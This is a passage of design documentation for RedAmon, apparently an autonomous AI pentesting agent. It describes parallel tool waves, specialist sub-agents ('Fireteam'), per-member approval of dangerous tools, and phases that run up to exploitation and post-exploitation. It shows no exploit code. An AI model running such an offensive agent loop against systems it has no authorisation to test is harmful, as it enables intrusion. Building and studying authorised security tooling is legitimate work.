1. **Deep Think is triggered** with reason `"Unproductive streak detected (N/W recent steps yielded no_progress / duplicate / blocked / failure), pivoting strategy"` (this replaces the old `"Failure loop detected (N consecutive failures)"` reason).
2. **A pivot warning is appended** to the system prompt: `## UNPRODUCTIVE STREAK DETECTED` followed by an instruction to switch tool family, switch vulnerability hypothesis, use `web_search` for alternative techniques, or escalate via `action='ask_user'`, never to retry the same approach with adjacent parameters.

### Flow Diagram

```mermaid
sequenceDiagram
    participant T as think_node
    participant L as LLM (main think)
    participant A as Productivity audit
    participant DT as Deep Think trigger

    T->>T: Append productivity-audit fingerprint block to prompt (if 3+ same-pattern recent)
    T->>T: Append prior-iteration downgrade reason (if any)
    T->>L: ainvoke
    L-->>T: LLMDecision with output_analysis.productivity
    T->>A: audit_productivity_claim(verdict, extracted_info, findings_grew)
    alt Claim consistent with state delta
        A-->>T: None
        T->>T: Persist verdict on step
    else Claim contradicts state delta
        A-->>T: discrepancy string
        T->>T: downgrade_verdict_to_no_progress(verdict, reason)
        T->>T: Stash reason in _last_productivity_discrepancy
    end
    T->>DT: Count unproductive in last W steps
    alt count >= threshold
        DT-->>T: Trigger Deep Think next iteration + append UNPRODUCTIVE STREAK warning
    else below threshold
        DT-->>T: No-op
    end
```

### Why the Audit Cannot Be Tricked

Three independent forces converge to make the verdict reliable:

1. **Schema-level coercion.** The closed enum and the mandatory `what_was_new` field mean a "confirmation" verdict with empty `what_was_new` is structurally suspicious before it even reaches the audit.
2. **State-delta cross-check.** Claiming new information is auto-falsified the moment no `chain_finding` is appended and no `extracted_info` is populated. The model cannot "claim and run", the audit runs in the same iteration that wrote the verdict.
3. **Visible fingerprint history.** Three identical fingerprints in the prompt with the audit's decision rule attached makes a fourth "confirmation" a visibly wrong answer. The model is shown its own pattern before being asked to classify the next call.

The combination is what lets the orchestrator break out of "successful but useless" loops without a hard-coded list of failure strings.

---

## Wave Execution (Parallel Tool Plans)

**Wave Execution** is how a *single agent* runs multiple independent tools concurrently in one think iteration. When the LLM identifies two or more tools whose outputs do not depend on each other (e.g. "scan the open ports AND look up known CVEs for this target"), it emits `action: "plan_tools"` instead of the usual `action: "use_tool"`. The orchestrator routes to the `execute_plan` node, which runs every tool in the plan concurrently via `asyncio.gather`, then returns *all* outputs together to the next think iteration for combined analysis. The result is a wall-clock speedup proportional to the number of independent tools, a 5-tool informational sweep that would take 5 minutes sequentially can finish in ~1 minute.

It is the **second of the agent's three execution modes**, sitting between sequential single-tool execution and full Fireteam fan-out:

| Mode | Decision | Concurrency | Reasoning shape |
|---|---|---|---|
| `use_tool` | One tool, then think | None | One agent, one tool at a time |
| **`plan_tools`** | **A wave of independent tools by ONE agent** | **N tools in parallel** | **One agent, multiple tools, single combined analysis** |
| `deploy_fireteam` | A wave of N specialist sub-agents | N agents × M tools each | N agents, each with their own ReAct loop |

Use `plan_tools` when the work is **N independent tool calls that share an analysis** (port scan + graph query + nuclei sweep against the same target). Use `deploy_fireteam` instead when each branch needs its **own multi-step reasoning loop** (auth-surface specialist + route-mapping specialist + header-policy specialist, each thinking iteratively over multiple tools).

### Wave Event Flow

```mermaid
sequenceDiagram
    participant C as Client
    participant B as Backend
    participant O as Orchestrator

    O-->>B: thinking
    B-->>C: thinking

    Note over O: LLM decides action=plan_tools

    O-->>B: plan_start (wave_id)
    B-->>C: plan_start

    par parallel: execute_nmap
        O-->>B: tool_start (nmap, wave)
        B-->>C: tool_start
        O-->>B: tool_output_chunk
        B-->>C: tool_output_chunk
        O-->>B: tool_complete (nmap)
        B-->>C: tool_complete
    and parallel: query_graph
        O-->>B: tool_start (query_graph, wave)
        B-->>C: tool_start
        O-->>B: tool_complete (query_graph)
        B-->>C: tool_complete
    end

    O-->>B: plan_complete (wave_id)
    B-->>C: plan_complete

    Note over O: Think analyses all wave outputs together

    O-->>B: plan_analysis
    B-->>C: plan_analysis
```

### Sequential vs. Parallel Execution

| Aspect | Sequential (`execute_tool`) | Parallel (`execute_plan`) |
|--------|---------------------------|-------------------------|
| **Trigger** | `action: "use_tool"` | `action: "plan_tools"` |
| **Execution** | One tool at a time | All tools concurrently via `asyncio.gather()` |
| **Streaming** | Single tool output | Multiple tools streaming concurrently |
| **Analysis** | Per-tool inline analysis in next think | Combined wave analysis after all complete |
| **Dependencies** | Can chain results | Only for independent tools |
| **Frontend rendering** | Individual `ToolExecutionCard` | Grouped `PlanWaveCard` |
| **State field** | `_current_step` | `_current_plan` (`ToolPlan` Pydantic model) |
| **Event sequence** | `tool_start → chunk → tool_complete` | `plan_start → [parallel tool events] → plan_complete → plan_analysis` |
| **Confirmation gate** | One Allow/Deny if dangerous | One Allow/Deny for the whole wave if any step is dangerous |

### LLM Decision Format

```json
{
  "action": "plan_tools",
  "thought": "Nmap and graph query are independent, run them in parallel.",
  "tool_plan": {
    "steps": [
      {
        "tool_name": "execute_nmap",
        "tool_args": {"target": "10.0.0.1", "args": "-sV"},
        "rationale": "Port and service discovery"
      },
      {
        "tool_name": "query_graph",
        "tool_args": {"question": "What is known about 10.0.0.1?"},
        "rationale": "Check existing intelligence"
      }
    ],
    "plan_rationale": "Independent tools with no data dependency"
  }
}
```

### Frontend: PlanWaveCard

The frontend renders each wave as a single grouped `PlanWaveCard` in the AgentTimeline, containing:

- **Header**, Layers icon, "Wave, N tools" title, status badge (Running / Success / Partial / Error)
- **Nested tool cards**, each tool's output rendered as a `ToolExecutionCard` inside the wave card
- **Analysis section**, LLM interpretation of combined outputs after all tools finish
- **Actionable findings & recommended next steps**, consolidated from the wave analysis

### Tool Mutex Groups (Concurrency Safety)

Some tools have **singleton state inside the Kali sandbox** and cannot run concurrently, even from different steps in the same wave (or from different fireteam members in the same fan-out). These are declared in `TOOL_MUTEX_GROUPS` in [`agentic/project_settings.py`](../agentic/project_settings.py):

```python
TOOL_MUTEX_GROUPS = {
    'metasploit': frozenset({'metasploit_console', 'msf_restart'}),
}
```

For `execute_plan` waves, the orchestrator serialises mutex-grouped steps inside the otherwise-parallel `asyncio.gather`. For Fireteam, the deploy-time validator rejects any plan where two members claim tools in the same group. Future singletons (Playwright `navigate`, `/tmp/`-writing tools) are tracked as deferred items.

### How It Compares to Other AI Pentesters

Wave Execution is **not unique to RedAmon**, but the implementation depth varies sharply across the market. The 2026-04-19 audit produced this matrix (full discussion in the [Comparative Benchmark](#comparative-benchmark--redamon-vs-other-ai-pentesters), Section 5 "Tool Selection & Use"):

| Capability | RedAmon | PentAGI | PentestGPT | Strix | Shannon |
|---|:---:|:---:|:---:|:---:|:---:|
| Parallel tool waves | ✅ | ✅ | ❌ | ⚠️ | ✅ |
| Tool-mutex groups (singleton protection) | ✅ | ❌ | ❌ | ❌ | ❌ |
| Dangerous-tool confirmation gate (per wave) | ✅ | ❌ | ❌ | ❌ | ❌ |

**RedAmon** runs `asyncio.gather` over a Pydantic-validated `ToolPlan` and serialises any mutex-grouped steps automatically. **PentAGI** runs parallel tool calls via Go goroutines but lacks both mutex protection and a confirmation gate. **Shannon** runs phase-internal agents in parallel via Temporal but the parallelism is at the *agent-phase* level rather than at the *tool* level inside a single agent step. **Strix** has tool execution in async tasks but the audit found no evidence that multiple tools run concurrently inside a single agent step (confirmed by direct grep, `asyncio.create_task` is used for individual tool isolation, not wave parallelism). **PentestGPT** is sequential by design.

The combination of *parallel waves* + *mutex protection* + *per-wave confirmation gate* exists in only one system. The mutex protection in particular is what makes wave execution safe to combine with Fireteam fan-out: if the root agent deploys three fireteam members and each member's first tool wave wants Metasploit, RedAmon will serialise them automatically; every other system in the benchmark would race on the singleton.

### Settings

There is no dedicated `WAVE_*` settings group, wave execution is governed by the same caps that govern any tool execution. The relevant knobs are:

| Setting | Default | Effect on waves |
|---|---|---|
| `MAX_ITERATIONS` | `100` | A wave counts as one iteration of the parent ReAct loop |
| `TOOL_OUTPUT_MAX_CHARS` | `20000` | Applied per-tool inside the wave |
| `REQUIRE_TOOL_CONFIRMATION` | `true` | If any tool in the wave is dangerous, the whole wave pauses for plan-mode approval |
| `TOOL_MUTEX_GROUPS` | `{metasploit: ...}` | Singleton protection, see above |

---

## Fireteam - Parallel Specialist Sub-Agents

**Fireteam** is how the root ReAct agent fans out **specialist sub-agents** that work in parallel on independent subtasks, then merges their findings back. It is **not** a separate process, container, or service, it is an `asyncio` fan-out inside the same event loop, the same LangGraph runtime, the same MCP session, and the same WebSocket connection as the root agent.

It is the third execution mode the root agent can choose, alongside `use_tool` (sequential) and `plan_tools` (parallel wave of tools by ONE agent):

| Mode | Decision | Concurrency | Reasoning |
|------|----------|-------------|-----------|
| `use_tool` | One tool, then think | None | One agent, one tool at a time |
| `plan_tools` | A wave of independent tools by ONE agent | N tools in parallel | One agent, multiple tools |
| `deploy_fireteam` | A wave of N **specialists**, each running its own ReAct loop | N specialists × M tools each | N agents, each with their own multi-tool reasoning |

### When the Root Deploys a Fireteam

The root deploys a fireteam when the objective decomposes into **independent specialist angles** that each need their own multi-step reasoning. Examples:

- "Parallelize deep recon across auth surface, route mapping, and security headers" → 3 members
- "Triage these 5 candidate CVEs in parallel" → 5 members, one per CVE
- "Fuzz the API while a second specialist analyzes the JS bundle" → 2 members

A single tool wave (`plan_tools`) is preferred when the work is just N parallel tool calls without per-branch reasoning. Fireteam is for when each branch needs its own ReAct loop.

### Architecture - Fan-Out Inside the Same Event Loop

```mermaid
flowchart TB
    subgraph Root["Root LangGraph (AgentState)"]
        RT[think_node]
        DEPLOY[fireteam_deploy_node]
        COLLECT[fireteam_collect_node]
        OTHER[execute_tool / execute_plan / await_*]
    end

    subgraph Fanout["asyncio.gather - same event loop"]
        M1[Member 1 subgraph<br/>FireteamMemberState]
        M2[Member 2 subgraph<br/>FireteamMemberState]
        M3[Member N subgraph<br/>FireteamMemberState]
    end

    subgraph Shared["Shared Resources"]
        MCP[MCP Tool Sessions]
        N4J[Neo4j Driver]
        WS[Single WebSocket]
        CTX[Tenant ContextVar<br/>captured at create_task]
    end

    REG[Confirmation Registry<br/>session,wave,member -> asyncio.Event]

    RT -->|action=deploy_fireteam| DEPLOY
    DEPLOY -->|create_task per member| M1
    DEPLOY -->|create_task per member| M2
    DEPLOY -->|create_task per member| M3

    M1 -.-> REG
    M2 -.-> REG
    M3 -.-> REG

    M1 --> COLLECT
    M2 --> COLLECT
    M3 --> COLLECT
    COLLECT --> RT
    RT --> OTHER

    M1 --> Shared
    M2 --> Shared
    M3 --> Shared

    style DEPLOY fill:#424242,stroke:#212121,color:#fff
    style COLLECT fill:#424242,stroke:#212121,color:#fff
    style REG fill:#757575,stroke:#424242,color:#fff
```

Why `asyncio.gather` and not threads or processes: every `await` inside a member (MCP call, Neo4j query, LLM stream, tool output chunk) yields control, so members interleave naturally on a single event loop. No locks, no cross-thread marshalling, and `task.cancel()` is the only cancellation primitive required.

### The Member Subgraph (5 Nodes)

Each fireteam member runs a **stripped-down ReAct subgraph** built on `FireteamMemberState`. Only 5 nodes, a deliberately smaller surface than the root's 14.

```mermaid
flowchart LR
    CSTART(["CHILD START"]) --> ftthink["fireteam_think"]

    ftthink -->|use_tool| ftexec["fireteam_execute_tool"]
    ftthink -->|plan_tools| ftexec_p["fireteam_execute_plan"]
    ftthink -->|dangerous tool| ftawait["fireteam_await_confirmation"]
    ftthink -->|complete| ftdone["fireteam_complete"]

    ftawait -->|approve + use_tool| ftexec
    ftawait -->|approve + plan_tools| ftexec_p
    ftawait -->|reject / timeout| ftthink

    ftexec --> ftthink
    ftexec_p --> ftthink
    ftdone --> CEND(["CHILD END"])

    style ftawait fill:#757575,stroke:#424242,color:#fff
```

**How a member differs from the root agent:**

- **No `deploy_fireteam`, `transition_phase`, or `ask_user`.** These actions are stripped to `complete` with a descriptive `completion_reason` in `fireteam_member_think_node._strip_forbidden_actions`. A member cannot recursively fan out, move the phase, or pause the wave to ask the operator a question.
- **No checkpointer.** Members are ephemeral. Only the parent state is checkpointed to Postgres via `AsyncPostgresSaver`.
- **Dangerous tools do not terminate the member**, they park it on an `asyncio.Event` (see below).
- **The execute nodes are literally reused**, `fireteam_execute_tool` and `fireteam_execute_plan` call the same `execute_tool_node` and `execute_plan_node` functions as the root agent. Everything is keyed by `session_id` from state, so streaming callbacks and tool dispatch work transparently.
- **Member think writes EvoGraph rows with attribution.** Each `ChainStep` and `ChainFinding` carries `agent_id`, `source_agent`, and `fireteam_id` so the graph DB knows which specialist produced each step.

### Per-Member Dangerous-Tool Confirmation

This is the most distinctive part of the design. The operator's mental model is "N specialists running in parallel, each pauses on its own tool decision". To match that:

- The member does **not** exit on a dangerous tool. Its task stays alive.
- It parks on an `asyncio.Event` owned by a tiny in-process registry.
- When the operator decides on that specific member's panel, the registry wakes that exact Event.
- The member resumes in the same `FireteamMemberState` and either runs the approved tool(s) or loops back to think with a rejection note.

```mermaid
sequenceDiagram
    participant M as Member task, (e.g. Auth Hunter)
    participant R as confirmation_registry
    participant WS as WebSocket server
    participant UI as Browser

    M->>M: fireteam_think emits dangerous use_tool / plan_tools
    M->>M: sets _pending_confirmation
    Note over M: graph routes to, fireteam_await_confirmation
    M->>R: register(session, wave, member) -> Event
    M->>WS: on_fireteam_member_awaiting_confirmation
    WS->>UI: FIRETEAM_MEMBER_AWAITING_CONFIRMATION
    UI->>UI: inject pending plan_wave, into that member's panel
    Note over M: await event.wait(), timeout = FIRETEAM_CONFIRMATION_TIMEOUT_SEC (600s), other members keep running

    UI->>WS: fireteam_member_confirmation, {wave_id, member_id, decision}
    WS->>R: resolve(session, wave, member, decision)
    R-->>M: event.set()

    alt decision = approve
        M->>M: keep _decision + _current_step / _current_plan
        M->>M: route to fireteam_execute_tool / execute_plan
        Note over M: tool runs, output streams into panel,, ReAct loop continues
    else decision = reject or timeout
        M->>M: clear _decision and inject rejection HumanMessage
        M->>M: route back to fireteam_think
        Note over M: rejection note tells the LLM the operator denied the tool, member reasons again
    end
```

**Properties:**

- **Parallel.** N members can each be parked on their own Event simultaneously. The operator resolves them in any order.
- **In-place.** The member never leaves its panel. No new fireteam card is spawned on approve, the existing panel just starts emitting `fireteam_tool_start` events again.
- **Cancel-safe.** On wave timeout or operator stop, `drop_wave` wakes every pending Event with `decision="reject"`, then `task.cancel()` propagates. No orphaned `await` coroutines.
- **Timeout-safe.** The member's own `asyncio.wait_for(event.wait(), 600s)` prevents indefinite hangs if the operator walks away.
- **Process-local.** The registry is not durable. A backend crash mid-wait is handled by the persistent checkpointer at the parent level, any running members are marked `cancelled` with `backend_restart` on resume.

### Fan-Out: `fireteam_deploy_node`

The deploy node:

1. Parses `_current_fireteam_plan` from parent state into a list of `FireteamMemberSpec` (name, task, skills).
2. Builds one `FireteamMemberState` per member, snapshotting parent's `target_info`, `current_phase`, tenant ids (`user_id`, `project_id`, `session_id`), and assigning `member_id`, `fireteam_id`, `skills`, `task`.
3. Allocates an `asyncio.Semaphore(FIRETEAM_MAX_CONCURRENT)` to cap in-flight members.
4. Creates one `asyncio.Task` per member running `fireteam_member_graph.astream(child_state)` under the semaphore.
5. `await asyncio.wait_for(asyncio.gather(*tasks, return_exceptions=True), timeout=FIRETEAM_TIMEOUT_SEC)`.
6. Normalizes the results, emits `fireteam_completed` over the WS, returns `_current_fireteam_results` in state.

### Fan-In: `fireteam_collect_node`

After `gather` returns, the collect node:

1. **Merges `target_info` deltas**, list fields extend-and-dedupe, dict fields update, scalars fill only when the parent had none.
2. **Appends member findings** to the parent's `chain_findings_memory`, tagging each with `source_agent`, `agent_id`, and `fireteam_id`. `format_chain_context` then renders the source as `(step N, from <specialist>, confidence%)` so the root LLM knows which specialist produced what.
3. **Auto-completes matching TODOs**, when a member returns `status="success"`, any TODO entry whose description mentions that member's name (case-insensitive word match) is flipped to `completed`. Any TODO mentioning the word "fireteam" is also flipped if at least one member in the wave succeeded. This closes the "re-deploy identical plan" loop where the root LLM saw all its fireteam-related TODOs stuck in `in_progress` after a wave finished. Partial/error/cancelled members do NOT auto-close their TODOs.
4. **Renders a compact wave-completion marker** (header + one line per member) and appends it to `messages` as a `SystemMessage`. This is observability only, `think_node` does not forward `state["messages"]` to the LLM, so the root's actual decision signal comes from rendered finding attribution and auto-completed TODOs.
5. **Returns control to the root `think_node`**, which sees the updated findings, TODOs, and target_info in its next prompt.

Findings are **not** re-extracted here. Each member writes its own `ChainStep` and `ChainFinding` rows to Neo4j in real time during its think loop, with proper agent attribution. The collect step is a pure in-memory roll-up for the parent's next prompt.

#### Finding -> Graph Bridges

`fire_record_finding` calls `_resolve_finding_bridges` after writing each `ChainFinding`, creating these relationships when the target node exists in the project's tenant scope:

| Relationship | Target | Source |
|---|---|---|
| `FOUND_ON` | `IP` or `Subdomain` | Explicit `related_ips` field |
| `FINDING_RELATES_CVE` | `CVE` | Explicit `related_cves` + regex-scan of `evidence` |
| `FINDING_AFFECTS_ENDPOINT` | `Endpoint` | URL paths regex-scanned from `evidence` (static assets filtered) |
| `FINDING_AFFECTS_PORT` | `Port` | Port numbers regex-scanned from `evidence` (`:PORT` / `port N` / `N/tcp`) |
| `FINDING_AFFECTS_TECH` | `Technology` | Technology.name appears as substring in `evidence` (case-insensitive) |

The regex scan exists because the LLM frequently leaves the structured `related_cves` / `related_ips` fields empty while naming CVEs, paths, and ports inline in evidence prose. All MATCHes are tenant-scoped (`user_id`, `project_id`) and missing targets are silently skipped, a finding never fails due to a missing bridge.

### Streaming Event Vocabulary

The WebSocket protocol is strictly additive, v1 clients simply ignore unknown events. Every fireteam event carries `wave_id` and (where applicable) `member_id` so the UI can route into the right panel.

**Outbound (server -> client):**

| Event | Meaning |
|---|---|
| `fireteam_deployed` | wave created, instantiate N member panels |
| `fireteam_member_started` | member task began |
| `fireteam_thinking` | member's thought / reasoning for this iteration |
| `fireteam_tool_start` / `fireteam_tool_output_chunk` / `fireteam_tool_complete` | member tool execution, streamed |
| `fireteam_plan_start` / `fireteam_plan_complete` | member issued a nested `plan_tools` wave |
| `fireteam_member_awaiting_confirmation` | member parked on Event, render pending card in that panel |
| `fireteam_member_completed` | member exited with final status / stats |
| `fireteam_completed` | wave done, parent resumes |

**Inbound (client -> server):**

| Message | Meaning |
|---|---|
| `fireteam_member_confirmation` `{wave_id, member_id, decision}` | operator decided on that member's pending tool, resolves the registry Event |

The root-agent path still uses the older `tool_confirmation_request` / `tool_confirmation` for dangerous tools that the root itself wants to run. Fireteam members do not use that channel any more.

#### Streaming Pipeline (Four Layers)

```
       LangGraph node          member_scoped_cb           WebSocketCallback         browser
       (fireteam_think,        (proxy in                  (on_fireteam_*)           (React reducer
        execute_tool_node)      member_streaming.py)                                 fireteamChatState)
    +---------------------+   +-----------------------+  +------------------------+  +----------------+
    | emit_streaming_     |-->| on_tool_complete      |->| on_fireteam_tool      |->| handleFire     |
    | events(state)       |   | (renames to           |  | _complete             |  | teamTool       |
    +---------------------+   |  fireteam_*; injects  |  | (WS send_message;     |  | Complete       |
                              |  fireteam_id, wave_id |  |  persists ChatMessage)|  +----------------+
                              |  step_index)          |  +------------------------+
                              +-----------------------+
```

The proxy MUST forward `wave_id` and `step_index` for every `on_tool_*` call. If dropped, two same-name tools (e.g. iter-1 standalone `execute_playwright` + iter-2 plan-wave `execute_playwright`) collide in the frontend reducer's `findLast(name + running)` matcher, and one tool gets patched with the other's completion.

### Cancellation, Timeouts, and Failure Modes

| Trigger | Behavior |
|---|---|
| Operator clicks Stop | parent task cancel -> `fireteam_deploy_node` catches `CancelledError` -> `drop_wave(session, wave)` wakes pending Events with reject -> `task.cancel()` on each member -> members exit -> wave marked `cancelled` |
| Wave wall-clock timeout (`FIRETEAM_TIMEOUT_SEC`, default 1800s) | `asyncio.wait_for` on the gather raises `TimeoutError` -> same cleanup path as cancel; status `timeout` |
| Member exceeds iteration budget (`FIRETEAM_MEMBER_MAX_ITERATIONS`) | member exits with status `partial`, findings preserved |
| Operator never decides a confirmation | member's own `asyncio.wait_for(event.wait(), 600s)` -> `TimeoutError` -> treated as reject with a distinctive note |
| Single member crashes | `return_exceptions=True` on gather -> that member gets `status=error` + `error_message`, wave completes normally |
| Backend restart | persistent checkpointer resumes parent; members were ephemeral so any running member is lost -> recovery marks the wave `cancelled` with `backend_restart` |

### Safety Invariants Preserved

- **Hard guardrail / soft guardrail / tenant isolation** run once at `initialize_node` on the parent. Members inherit the tenant `ContextVar` because it is captured at `asyncio.create_task` time (before `gather`).
- **Phase gating**, each member's `current_phase` is snapshotted at deploy time and is **immutable** for that member's lifetime. `transition_phase` in a member's decision is stripped to `complete` with reason `requested_phase_escalation`.
- **Rules of engagement**, enforced at the tool-executor level, which is shared. Members get RoE for free.
- **Tool confirmation**, every dangerous tool from any member still requires operator approval before execution. The mechanism is new (per-member Event, in-panel) but the safety contract is byte-identical to the single-agent path.
- **No recursive deployment**, `deploy_fireteam` inside a member is stripped to `complete` with reason `deploy_forbidden_in_member` and logged as a warning.

### State Schema and the LangGraph Filtering Gotcha

Two TypedDicts, two graphs: the parent runs on `AgentState`; each fireteam member runs on `FireteamMemberState`. LangGraph compiles `StateGraph(StateT)` against the TypedDict and enforces the schema during reduction: **any key a node returns in its update dict that is not declared on the TypedDict is silently dropped during state merge.**

This is a sharp edge. A node can compute `update["_completed_step"] = foo` and return it, and the next node will see `state["_completed_step"] == None` because LangGraph filtered it out. The rule is: **if a node writes it, the TypedDict must declare it.**

What members deliberately do NOT inherit from `AgentState`:

- `awaiting_tool_confirmation`, `tool_confirmation_pending`, `tool_confirmation_response`, `_reject_tool`, the parent-level tool-confirmation machinery. Members use the per-member `asyncio.Event` registry instead.
- `phase_transition_pending`, `user_approval_response`, members cannot request phase transitions.
- `qa_history`, `objective_history`, `chain_decisions_memory`, `prior_chains`, root-only conversation memory.
- `_deploy_fireteam_plan`, members cannot recursively deploy.

### Chain Context Propagation (Parent ⇄ Members ⇄ Next Wave)

Members are not dispatched cold. Each receives a snapshot of the parent's engagement state at deploy time, rendered into the member's system prompt with the same `format_chain_context()` function the root agent uses on itself, so members open every iteration with full visibility into what has already been discovered.

**What flows parent → member at deploy time** (snapshotted in [`fireteam_deploy_node._build_member_state`](../agentic/orchestrator_helpers/nodes/fireteam_deploy_node.py)):

| Field on `FireteamMemberState` | Source on `AgentState` | Rendered as |
|---|---|---|
| `_parent_chain_findings` | `chain_findings_memory` | `── Findings ──` block with `(from <agent>)` attribution, `evidence` up to 10 000 chars |
| `_parent_chain_failures` | `chain_failures_memory` | `── Failed Attempts ──` with `lesson_learned` |
| `_parent_chain_decisions` | `chain_decisions_memory` | `── Decisions ──` (phase transitions, etc.) |
| `_parent_execution_trace` | `execution_trace` + `_completed_step` (belt-and-suspenders) | `── Recent Steps ──` with tool args, analysis, and full output of the last tool (5 000 char cap) |
| `parent_target_info` | `target_info` | `## Target context` block (ports, services, technologies, vulns) |

These four `_parent_*` fields **must** be declared on the `FireteamMemberState` TypedDict for the same reason described in the previous section, otherwise LangGraph strips them at the boundary.

The member's system prompt then carries two distinct chain-context renders, both produced by `format_chain_context()`:

- **`## Engagement state`** ← `_parent_*` snapshot. Frozen at deploy time, lets the member see findings from the root agent and any earlier fireteam wave, with source attribution preserved.
- **`## Your local progress in this run`** ← member's own `chain_findings_memory` + `execution_trace`. Updates every iteration so the member sees its own prior tool calls and findings.

**What flows member → parent at wave completion** (in `fireteam_collect_node`):

- Each `FireteamMemberResult.findings` is appended to the parent's `chain_findings_memory` with extra `source_agent`, `agent_id`, and `fireteam_id` stamps. Findings are simultaneously persisted to Neo4j inline by the member's own think node, so the graph DB is the durable ground truth and `chain_findings_memory` is the in-prompt mirror.
- Each member's `target_info_delta` is merged into the parent's `target_info` via `_merge_target_info` (de-duplicated list extension, dict merge, scalars only filled when empty).
- TODOs that reference a succeeded member name are auto-completed.

The parent's next `think_node` invocation re-renders the merged `chain_findings_memory` into its own `--- CHAIN CONTEXT ---` block. If the parent then dispatches another fireteam, the cycle repeats: the new wave's members snapshot the now-enriched `chain_findings_memory` into their `_parent_chain_findings`, and they open with everything the engagement has learned so far.

**The critical condition for this pipeline to carry anything.** A finding only enters `chain_findings_memory` if the member's LLM emits it under `output_analysis.chain_findings` during an iteration. If a member finishes with discoveries described only in prose `completion_reason`, the rest of the pipeline transports nothing. The member system prompt enforces this with an explicit *"every distinct discovery in your trace MUST appear as a `chain_findings` entry; a 0-finding completion is almost always wrong"* rule, alongside three self-check rules (find-rate, duplicate-target, negative-result) that the member is asked to re-read every iteration.

### Worked Example

Operator prompt: "parallelize deep recon across three independent angles on www.example.com, auth surface, route mapping, and security headers".

1. **Root think** sees three independent attack surfaces and emits `deploy_fireteam` with three members (Auth Hunter, Surface Mapper, Header & Policy Analyst).
2. **`fireteam_deploy_node`** creates three `asyncio.Task`s. All three run the same member graph against distinct states.
3. **All three members think concurrently.** Each produces a `use_tool` decision that includes a dangerous tool (`execute_playwright`, `execute_curl`). Each sets `_pending_confirmation` and routes to `fireteam_await_confirmation`.
4. **Three pending cards appear in parallel**, one inside each specialist panel inside the single fireteam card. No sequential queueing.
5. The operator clicks **Approve** on Auth Hunter. The registry wakes only that member's Event. Auth Hunter resumes, runs its tool, streams output into its panel, keeps reasoning. Meanwhile Surface Mapper and Header & Policy Analyst are still paused on their own Events.
6. The operator clicks **Reject** on Surface Mapper. Its Event wakes, `_decision` is cleared, a `HumanMessage` is injected explaining the rejection, and the member loops back to `fireteam_think` to pick a different approach, or emits `complete` if nothing is viable.
7. The operator clicks **Approve** on Header & Policy Analyst. Similar to step 5.
8. All three members eventually emit `complete`. The gather resolves. `fireteam_collect_node` merges findings, auto-completes matching TODOs, and returns control to the root `think_node` with the three specialists' combined attack-surface map available in the next prompt.

From the operator's UI: **one fireteam card with three always-visible specialist panels**, per-member inline approvals, no modal dialogs, no detached cards, no sequential gating.

### Key Files

**Backend (agent):**

| File | Role |
|---|---|
| [agentic/orchestrator.py](../agentic/orchestrator.py) | Registers the 3 fireteam nodes, wires edges, compiles graph |
| [agentic/orchestrator_helpers/fireteam_member_graph.py](../agentic/orchestrator_helpers/fireteam_member_graph.py) | Builds the 5-node member subgraph (compiled once at startup) |
| [agentic/orchestrator_helpers/fireteam_confirmation_registry.py](../agentic/orchestrator_helpers/fireteam_confirmation_registry.py) | In-process `(session, wave, member) -> Event` registry |
| [agentic/orchestrator_helpers/nodes/fireteam_deploy_node.py](../agentic/orchestrator_helpers/nodes/fireteam_deploy_node.py) | Fan-out: `asyncio.gather` over N member tasks |
| [agentic/orchestrator_helpers/nodes/fireteam_collect_node.py](../agentic/orchestrator_helpers/nodes/fireteam_collect_node.py) | Fan-in: merge `target_info` + findings, auto-complete TODOs |
| [agentic/orchestrator_helpers/nodes/fireteam_member_think_node.py](../agentic/orchestrator_helpers/nodes/fireteam_member_think_node.py) | Member ReAct think, forbidden-action stripping, await_confirmation node |
| [agentic/websocket_api.py](../agentic/websocket_api.py) | `on_fireteam_member_awaiting_confirmation` emit, `handle_fireteam_member_confirmation` receive |
| [agentic/state.py](../agentic/state.py) | `FireteamMemberSpec`, `FireteamPlan`, `FireteamMemberState`, `FireteamMemberResult` types |
| [agentic/project_settings.py](../agentic/project_settings.py) | `FIRETEAM_*` knobs (enabled, max concurrent, timeouts, allowed phases) |

**Frontend (webapp):**

| File | Role |
|---|---|
| [webapp/src/app/graph/components/AIAssistantDrawer/FireteamCard.tsx](../webapp/src/app/graph/components/AIAssistantDrawer/FireteamCard.tsx) | Wave-level card (header + per-member grid) |
| [webapp/src/app/graph/components/AIAssistantDrawer/FireteamMemberCard.tsx](../webapp/src/app/graph/components/AIAssistantDrawer/FireteamMemberCard.tsx) | Per-member panel with inline pending-approval card and approve/reject buttons |
| [webapp/src/app/graph/components/AIAssistantDrawer/hooks/fireteamChatState.ts](../webapp/src/app/graph/components/AIAssistantDrawer/hooks/fireteamChatState.ts) | Pure reducers for the fireteam WS event family |
| [webapp/src/hooks/useAgentWebSocket.ts](../webapp/src/hooks/useAgentWebSocket.ts) | `sendFireteamMemberConfirmation(wave_id, member_id, decision)` |
| [webapp/src/lib/websocket-types.ts](../webapp/src/lib/websocket-types.ts) | Event names and payload interfaces |

### Settings

Mapped from Prisma `Project.*` fields into the agent's `FIRETEAM_*` settings on each request. See [agentic/project_settings.py](../agentic/project_settings.py).

| Setting | Default | Purpose |
|---|---|---|
| `FIRETEAM_ENABLED` | `true` | Master switch, when off, `deploy_fireteam` is stripped from the LLM action vocabulary |
| `FIRETEAM_MAX_CONCURRENT` | `5` | `asyncio.Semaphore` permits during a wave |
| `FIRETEAM_MAX_MEMBERS` | `5` | Hard cap on members per wave |
| `FIRETEAM_MEMBER_MAX_ITERATIONS` | `20` | Per-member ReAct iteration budget |
| `FIRETEAM_TIMEOUT_SEC` | `1800` | Wall-clock ceiling per wave |
| `FIRETEAM_CONFIRMATION_TIMEOUT_SEC` | `600` | Per-member confirmation wait before auto-reject |
| `FIRETEAM_ALLOWED_PHASES` | `[informational, exploitation, post_exploitation]` | Phases in which the agent may deploy a fireteam |

### What's Out of Scope for v1

- Recursive fan-out (a member cannot deploy a sub-fireteam)
- Operator mid-wave steering of a single member (only whole-wave cancel)
- Per-member working directory in the sandbox (shared `/tmp`; mitigated by `TOOL_MUTEX_GROUPS` for singletons like Metasploit and Playwright)
- Per-member LLM provider selection
- Cross-member shared scratchpad (members communicate only via Neo4j writes + final merge in parent)

These are tracked as deferred items; none are blockers for the shipped feature.

---

## Output Analysis (Inline)

After every tool execution, the **next** think iteration produces a structured analysis of the previous tool's output **inline** with its decision, in the same JSON object, no separate LLM call. This is the agent's primary signal-extraction loop.

### Schema

Defined in [agentic/state.py](../agentic/state.py) as `OutputAnalysisInline` (when emitted alongside a `LLMDecision`) and `OutputAnalysis` (the standalone post-step variant). Both share the same fields:

| Field | Type | Purpose |
|---|---|---|
